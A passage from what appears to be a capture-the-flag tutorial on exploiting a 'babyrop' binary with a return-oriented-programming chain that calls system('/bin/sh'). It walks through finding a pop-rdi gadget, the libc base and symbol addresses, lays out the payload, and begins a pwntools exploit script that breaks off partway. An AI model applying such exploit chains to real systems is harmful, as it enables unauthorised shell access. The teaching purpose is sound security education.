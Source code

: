 To exploit the server, by getting a shell though calling `system("/bin/sh")` we need a few things:
* A set of instructions in the binary (`pop rdi` followed by `ret`) that pulls data from the stack (the address of our */bin/sh* string ready for the system call, which expects its argument in RDI) into RDI and returns to our code.
* The address of the start of *libc* loaded in the binary
* The location of the `system()` function in *libc*
* The string ''/bin/sh" stored somewhere in an address we can load into RDI.

Let's do these in order. First we find an address in the *babyrop* binary containing the instructions we need (known as a gadget). We can do this with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). This finds all possible gadgets in a binary. We need to look through the output for our `pop rdi`:
```
$ ROPgadget --binary babyrop | grep "pop rdi"
0x00000000004011d3 : pop rdi ; ret
```
There is just one at *0x004011d3*, so we record that address for later.

> Note: This is a nice clean version of `pop rdi` which simply does the pop and then returns. Sometimes you may have to find `pop rdi` as part of a set of other instructions. This is OK, provided there are extra junk entries in your payload to deal with any other `pop` instructions, and nothing in the gadget changes RDI once it's been popped.

Now let's find the start of our *libc* address space inside our binary. Because we've turned off ASLR, this address will always be the same. With ASLR on, it would change on each run:
```
$ ldd babyrop
    linux-vdso.so.1 (0x00007ffff7fcd000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc3000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```
Unfortunately, on different systems this value may be different, but it'll always be the same on the same system, so we can test this locally. We save the `0x00007ffff7dc3000` address for later.

The address for the `system()` function can be found using [pwntools](pwntools.md). We can use:
```python
libc.symbols['system']
```
in our script to find the address.

Finally, we need the address of the */bin/sh* string in *libc*. This can also be done in our Python script with the command:
```python
next(libc.search(b'/bin/sh'))
```
The `next()` is necessary as `libc.search()` returns a Python generator.

Now we have all the information we need to put an exploit together. Our payload order will be:
* Padding of 72 characters
* Address of `pop rdi` gadget
* Address of */bin/sh* string
* Address of `system()` function

Let's put all that together in our Python script:
```python
#!/usr/bin/env python3
from pwn import *

# Set our executable and libc
rop_bin = ELF('./babyrop')
libc = ELF("./libc.so.6")
# Say whether we're testing locally or attacking the server
run_local = True

# If local, run as a process, otherwise connect to the server
if run_local:
  p = rop_bin.process()
else:
```